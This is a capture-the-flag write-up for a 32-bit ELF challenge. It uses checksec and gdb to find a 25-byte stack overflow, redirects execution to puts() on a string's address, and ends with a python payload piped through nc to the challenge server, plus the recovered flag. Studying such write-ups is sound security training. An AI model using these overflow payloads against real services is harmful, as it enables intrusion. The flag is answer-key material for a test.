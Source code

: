 # Pennsylvania - IRS - Exploit - 100
## Problem Description
> Good day fellow Americans. In the interest of making filing your tax returns as easy and painless as possible, we've created this nifty lil' program to better serve you! Simply enter your name and file away! And don't you worry, everyone's file is password protected ;)
> 
> nc irs.pwn.republican 4127

We are provided a stripped ELF 32-bit LSB executable, Intel 80386. 


```
$ checksec ./irs
[!] Couldn't find relocations against PLT to get symbols
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE

```

Running strings on the file reveals the string "not_the_flag". This is the password for viewing Donald Trump’s tax returns on the given binary. So the goal is to force the program to output this string somehow. Stepping through the output in gdb reveals that this string is located at 0x804c03a.

## Finding an Exploit
I tested for easy buffer overflows or string format vulns before even taking a look at the assembly.


There is indeed a buffer overflow in the edit function, when it asks for y/n confirmation.

```
y/n
AAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD
Your changes have been recorded!


Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)
```
So the instruction pointer gets overridden after 25 characters. We have control of esp contents, ebp, and eip

Taking a look at the functions, we have

- View tax return: 0x804892C
 -   0x804893a : Call 0x80484f8 ( puts )
 -   0x804895c: Call printf
 -   0x8048981 : printf
 -   0x80489a6 : printf
 -   0x80489cb : printf
 -   0x80489db : puts


```
$ python -c "import struct; print('1\n1\n1\n1\n1\n3\n1\n1\n1\n1\n' + '\x00' * 25 + struct.pack('i', 0x804892C))" | ./irs
...
--------------------------------------------------------------------------------
Segmentation fault (core dumped)
```




Great! We can redirect the program flow to the view taxes function. It begins printing the first line with all the dashes. It then crashes early since the parameters are incorrect.


Although, using this entire function isn't even necessary. Since we know the memory address of the flag, we can just call puts() on its location and pass the memory address as the parameter.


- call puts: 0x804893a
- puts: 0x80484f8
- flag: 0x0804c03a


So if we can set the top of esp to 0x0804c03a and then jump to 0x804893a, we will get the flag. Of course, the flag location may change, but we’ll get to that later.



```
(gdb) r
…
^C
(gdb) i r
…
esp            0xffffcd78    0xffffcd78
…
(gdb) set *0xffffcd78=0x804c03a
(gdb) jump *0x804893a
Continuing at 0x804893a.
not_the_flag


Program received signal SIGSEGV, Segmentation fault.
0x08048951 in ?? ()
```



So it works in theory; now to try it using the buffer overflow
```
(gdb) !python -c "import struct; print('1\n1\n1\n1\n1\n3\n1\n1\n1\n1\n' + '\x00' * 25 + struct.pack('i', 0x80489db) + struct.pack('i', 0x804c03a))" > attack
(gdb) r < attack
…
Deductible: 1
y/n
Your changes have been recorded!
not_the_flag


Program received signal SIGSEGV, Segmentation fault.
0x080489e4 in ?? ()
```




## Determining the Offset

It works in gdb! However, something seems to be offset when running it on the binary without gdb, as it fails to print this string. The not_the_flag variable must have been loaded into a different location. But it is still calling the puts function successfully.
We can try using the address of what we found when running strings on the binary instead.
Looking back at the binary, the variable is located at 0xac2
```
$ xxd irs | grep not
00000ac0: c700 6e6f 745f c740 0474 6865 5fc7 4008  ..not_.@.the_.@.
```
The .text base address for x86 systems is 0x8048000, so this variable’s location when loaded into the program should be 0x8048000 + 0xac2 = 0x8048ac2

```
python -c "import struct; print('1\n1\n1\n1\n1\n3\n1\n1\n1\n1\n' + '\x00' * 25 + struct.pack('i', 0x80489db) + struct.pack('i', 0x8048ac2))" | nc irs.pwn.republican 4127
…
y/n
Your changes have been recorded!
flag�@{c4n�_1_g�@
                  3t_a�@_r3f�@und}�
```

flag{c4n_1_g3t_a_r3fund}
